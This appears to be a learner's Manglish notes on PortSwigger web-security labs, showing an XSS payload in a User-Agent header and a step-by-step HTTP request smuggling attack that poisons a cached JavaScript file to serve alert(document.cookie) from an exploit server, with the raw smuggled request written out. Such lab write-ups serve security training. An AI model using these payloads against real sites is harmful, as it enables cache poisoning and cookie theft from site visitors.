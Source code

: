 					0
					
					GET /post?postId=5 HTTP/1.1
					User-Agent: a"/><script>alert(1)</script>
					Content-Type: application/x-www-form-urlencoded
					Content-Length: 5
					
					x=1

-->ini send adikuka apol namuk kanam namude response il ee script reflect aakunund.ini browser il poi ee particular blogpost refresh chythal alert pop up aakum

==============================================================

          Lab-10(Exploiting HTTP request smuggling to perform web cache poisoning)
-->ivide front-end content-lenth aan support chyuka
-->aadyam lab open chyuka enit GET /  request eduth repeater il iduka
-->ini ethengilum oru blog post click chyuka enit aa page il next page enna button undakum.so ath click chyuka enit aa request eduth repeater il iduka `GET /post/next?postId=1`
-->ini aadyathe GET /  request eduth satharana chyuna pole C.T,C.L,T.E iitum pine get mati POST aakuka
-->enit namude ee GET /post/next?postId=1  request smuggle chyanayi iduka enit athile host: josu ennu kodukam enit send kore pravisham adikuka apol namuk 302 FOUND enn kanum arthil `Location: https://josu/post?postId=2`  enn response il kanam aa request nokama :

                            POST / HTTP/1.1
							Host: 0a8100fe0454db44c0b86a2700430036.web-security-academy.net
							Content-Type: application/x-www-form-urlencoded
							Content-Length: 124
							Transfer-Encoding: chunked
							
							0
							
							GET /post/next?postId=1 HTTP/1.1   ---1)
							Host: josu                         ---2)
							Content-Type: application/x-www-form-urlencoded
							Content-Length: 3
							
							x=1
-->so namuk ee request smuggle chyumbol namuk ishtamulla host ilek redirect chyan patunund
-->ini namude exploit server il poi file:  /post enn kodukuka.karanam blog post inte next post edukuna redirection request aanalo namal smuggle chyunath.athayath ivide 1). 
-->http content-type application/javscript ennath maati text/javascript ennakuka.ini body il alert(document.cookie) enn koduth save chyuka
-->ini enth venamenal http history pokuka.athil kanan patum home page load aakumbol `GET /resources/js/tracking.js`   enna oru javascript file ilek request pokunund.so ee file application retrieve chyunu.ithinte reponse il nokiyal kanam x-cache: hit een so ee request inte response cache chyapedunund
-->so ee request eduth repeater il iduka
-->ini mukalile main payload ile 2) host: exploitserver url kodukuka
-->ini send adikuka enit namude  `GET /resources/js/tracking.js`  request thottapurathe undakumalo athum send adikuka.angane mari mari send adichondirikuka
-->so aadyam redirection request aan send adikendath.enitan eee /tracking.js request send chyendath
-->ith engane nadakunun ennal namal next post alle smuggle chyunath.so ee smuggled request backend process chyth kazhinjal ee request in venda js files aan namal GET /resources/js/tracking.js  enn request ilude edukunath.so angane varumbol namude exploit server il ninum alert(document.cookie) edukunu..angane aanen thonun enik sherik katheela
